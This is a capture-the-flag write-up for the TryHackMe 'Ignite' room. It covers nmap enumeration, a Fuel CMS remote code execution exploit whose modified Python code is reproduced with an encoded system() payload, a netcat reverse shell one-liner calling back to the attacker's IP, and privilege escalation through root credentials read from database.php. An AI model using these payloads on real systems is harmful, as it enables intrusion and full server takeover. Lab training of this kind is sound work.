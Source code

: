 # Try Hack Me - Ignite
A new start-up has a few issues with their web server.

## Disclaimer - Your IP address will be different!
---

## Scanning and Enumeration
We are going to start this with a simple nmap scan to see what ports are open.  
Command: `nmap -T4 -sC -sV -oN nmap\inital <ip>`
Command Breakdown:  

```
-T4: speed of nmap scan is 4/5 (personal preference of mine)

-sC: Scan with default NSE scripts. Considered useful for discovery and safe

-sV: Attempts to determine the version of the service running on port

-oN: Normal output to the file normal.file
```

NMAP Results:  
From our intinal scann it seems that there is only one port open and the it 80.  
So lets open up our browser and see what shows up when we enter in the IP address of our challenge.  

```
# Nmap 7.80 scan initiated Thu Jul  9 19:15:51 2020 as: nmap -T4 -sC -sV -oN nmapinital 10.10.220.239
Nmap scan report for 10.10.220.239
Host is up (0.15s latency).
Not shown: 999 closed ports
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
| http-robots.txt: 1 disallowed entry 
|_/fuel/
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Welcome to FUEL CMS
```  
# Recon  

It looks like we have a functioning web service running the Fuel CMS.  
![webService](images/webService.png "webService")  
Now if we scroll futher down on this page it seems that the created has already provided us with the URL to the log in panel and the credentials needed to log in as well.  
![creds](images/creds.png "creds")  
So lets navigate to the `/fuel` url and see if we are actually able to log into this CMS.  
![login](images/login.png "login")  
Once we have entere in the credentials taht we found earlier it takes us direclty to the main dashboard for this application.  
![dashboard](images/dashboard.png "dashboard")  
Since I am not quite sure what to do with the dashboard I am going to place it on the back burner for now.  
Lets pull up searchsploit and see if we are able to find exploits for Fuel CMS.  
It looks like there is an Remote Code Execution vulnerability that we may be able to take advtange of.  
![searchSploit](images/searchSploit.png "searchSploit")  
I make a copy of this vulnerability into an exploite folder for this challenge.  
Command: `cp /usr/share/exploitdb/exploits/linux/webapps/47138.py /media/sf_CTF/THM/Ignite/exploits/RCE.py`  
Now that we have a copy of that exploite let take a look at the content of it.  
We are going to use nano.  
Command: `nano RCE.py`  

I had to make a couple of changes to the exploite.  
The first thing that I did was remove the port number,  
Secondly I remove the proxy variable.  
This is what you should have in at the end.  
Now when we run the exploite we are given a nice `CMD:` prompt.  
This is what you should have in at the end.  
```python
url = "http://10.10.220.239"
def find_nth_overlapping(haystack, needle, n):
    start = haystack.find(needle)
    while start >= 0 and n > 1:
        start = haystack.find(needle, start+1)
        n -= 1
    return start

while 1:
	xxxx = raw_input('cmd:')
	burp0_url = url+"/fuel/pages/select/?filter=%27%2b%70%69%28%70%72%69%6e%74%28%24%61%3d%27%73%79%73%74%65%6d%27%29%29%2b%24%61%28%27"+urllib.quote(xxxx)+"%27%29%2b%27"
	proxy = {"http":"http://127.0.0.1:8080"}
	r = requests.get(burp0_url, proxies=proxy)
```  
As you can see we are able to run some commands remotely. When this new found power it is possible that we can create a reverse shell and then find out first flag.

![exploit](images/exploit.png "exploit")  

Let's see if [pentest monkey](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet) has any one liners that we can try and chain together with this exploit. Well, well, well it looks like there is an one liner for seting up a netcat reverse shell. How about we give it a shot.  
```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.8.2.222 4444 >/tmp/f
```
![RCE](images/RCE.png "RCE")  

Before we try and run this revser sell we are going to need to set up a netcat lisitener on out host machine.  
Command: `nc -lvnp 4444` 


Code Breakdown:
```netcat
-l: listen mode, for inbound connects

-v: verbose [use twice to be more verbose]

-n: numeric-only IP addresses, no DNS

-p: local port number
```
![firstShell](images/firstShell.png "firstShell")  
It looks like it worked! Now it is time to snoop around and see if we are able to find out user flag.  
After running the `ls` command a few times I was able to locate our first flag.  
We are going to use the `cat` command to receive the content of the `user.txt` file.   
![userFlag](images/userFlag.png "userFlag")  
<br>
## Privilege escalation
---

It is time to try and now to try and find out root flag.  
So where shall we start at. If you rember when we first accessed the Fuel CMS there was a small little information section that states a database file could be found at `/var/www/html/fuel/application/config/database.php`.  
![dbPath](images/dbPath.png "dbPath")  

Let's go check out that file and see what it contains.  
It seems like we have stumbled across the root username and password.   
![rootCreds](images/rootCreds.png "rootCreds")  

We can take the credentials that we just found and try to upgrade our user to a root user. 
Before we start running any commands we should try and do is create a stable shell.  
This can be done by using python and the following command `python -c ‘import pty; pty.spawn(“/bin/bash”)’`.  
Once our shell has become stable we can use the `su` command to switch into our root user account. 
<br>
![stableShell](images/stableShell.png "stableShell")  
Now that our shell is stable we are going to verify that we are actually root.  
Great we are in fact root. Now lets receive the root flag.    
![rootFlag](images/rootFlag.png "rootFlag") 

## Congratulations you have just completed the Ignite challenge!